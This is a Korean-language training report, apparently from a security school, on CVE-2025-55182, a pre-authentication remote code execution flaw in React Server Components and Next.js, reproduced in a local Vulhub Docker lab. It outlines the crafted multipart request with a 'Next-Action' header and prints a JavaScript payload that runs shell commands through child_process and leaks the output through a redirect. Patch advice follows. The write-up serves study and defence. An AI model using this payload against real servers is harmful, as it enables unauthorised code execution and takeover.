






# CVE-2025-55182 Report

화이트햇 스쿨 4기 10반 김광원 (@gwangwon0807)(https://github.com/gwangwon0807)

[영어 버전(Chinese version)](https://github.com/vulhub/vulhub/blob/master/react/CVE-2025-55182/README.md)
[중국어 버전(Chinese version)](https://github.com/vulhub/vulhub/blob/master/react/CVE-2025-55182/README.zh-cn.md)

## 1. 취약점 요약
React Server Components에서 발생한 pre-authentication Remote Code Execution 취약점이다.
- RSC는 React 컴포넌트를 서버 측 환경에서 실행하고, 그 결과를 클라이언트로 전달하는 React의 서버 렌더링 구조이다.

취약점의 핵심은 React Server Function endpoint로 전달된 HTTP request payload를 React가 decode/deserialization하는 과정에서 발생한다. 조작된 RSC/Flight payload를 서버 측 런타임에에 실행할 수 있다. CVSS 10.0 Critical로 평가되어 있다.

## 2. 참조

- [1] NVD, “CVE-2025-55182 Detail”  
  https://nvd.nist.gov/vuln/detail/CVE-2025-55182

- [2] CVE.org, “CVE Record: CVE-2025-55182”  
  https://www.cve.org/CVERecord?id=CVE-2025-55182

- [3] Next.js, “Security Advisory: CVE-2025-66478”  
  https://nextjs.org/blog/CVE-2025-66478

- [4] Vulhub, “react/CVE-2025-55182”  
  https://github.com/vulhub/vulhub/blob/master/react/CVE-2025-55182/README.md

- [5] 안랩, "React2Shell: 최신 웹 프레임워크를 위협하는 심각한 RCE 취약점 (CVE-2025-55182)"
  https://asec.ahnlab.com/ko/91660/

- [6] MONITORAPP, "[2025년 12월 취약점 보고서] React2Shell (CVE-2025-55182)"
  https://www.monitorapp.com/ko/resources/report/329

- [7] ProjectDiscovery, “CVE-2025-55182”  
  https://cloud.projectdiscovery.io/library/CVE-2025-55182

## 3. 환경 구성

| 항목 | 값 |
|---|---|
| 재현 이미지 | `vulhub/nextjs:15.5.6` |
| 프레임워크 | Next.js |
| 버전 | 15.5.6 |
| 실행 방식 | Docker Compose |
| 서비스 포트 | 3000 |

## 4. 실행 방법

```bash
docker-compose up -d
```
연결확인(정상 - 200) 
```bash
curl -i http://localhost:3000
```
RCE
```python
python poc.py
python3 poc.py
```

## 5. 취약 조건

| 조건 | 설명 |
|---|---|
| 취약 이미지 사용 | `vulhub/nextjs:15.5.6` 사용 |
| Next.js 15.5.6 환경 | React Server Components 처리 경로를 포함한 Next.js 서버 실행 |
| Server Action 처리 경로 존재 | `Next-Action` 헤더가 포함된 요청을 서버가 처리 |
| 외부 HTTP 요청 도달 가능 | `localhost:3000`으로 POST 요청 전송 가능 |
| multipart payload 처리 | 조작된 `multipart/form-data` body가 서버로 전달됨 |
| RSC/Flight payload 해석 | 서버가 전달받은 RSC/Flight payload를 decode/deserialization함 |

## 6. PoC 코드

multipart/form-data 형식의 HTTP POST 요청을 사용한다.
Next-Action: x 헤더를 포함하며, 이를 통해 Next.js가 해당 요청을 Server Action 요청으로 처리하도록 유도한다.

페이로드 bod는 3개의 섹션으로 나눔 
- name = 0 : 실제 페이로드
- name = 1 : 0에서 thenable할 객체 정의
- name = 2 : 해당 값 저장할 빈 배열 정의

```javascript
// child_process : OS 실행 -> id 명령어 실행후 문자열 형태로 저장
var res = process.mainModule
  .require('child_process')
  .execSync('id')
  .toString()
  .trim();

// redirect 설정
throw Object.assign(new Error('NEXT_REDIRECT'), {
  digest: `NEXT_REDIRECT;push;/login?a=${res};307;`
});
```

## 7. 실행 결과

### 7-1 정상 실행

1. 정상 연결 확인


### 7-2 RCE

burp의 Repeater 기능을 이용해서 POST / 요청의 header, body 조작

1. Header 위조


2. Body 위조


3. 결과
- id 실행 결과 반환


4. 코드 실행
- id, pwd 실행 결과 출력



## 8. 대응 방안
1. 공식 패치 버전 적용 
- Next.js 기반 애플리케이션은 공식 권고에 따라 패치 버전으로 업데이트한다. Next.js 15.5.x 계열에서는 `15.5.7` 이상으로 업데이트해야 한다. Next.js가 아닌 RSC 직접 사용 환경에서는 `react-server-dom-webpack`, `react-server-dom-parcel`, `react-server-dom-turbopack`도 패치 버전으로 업데이트해야 한다.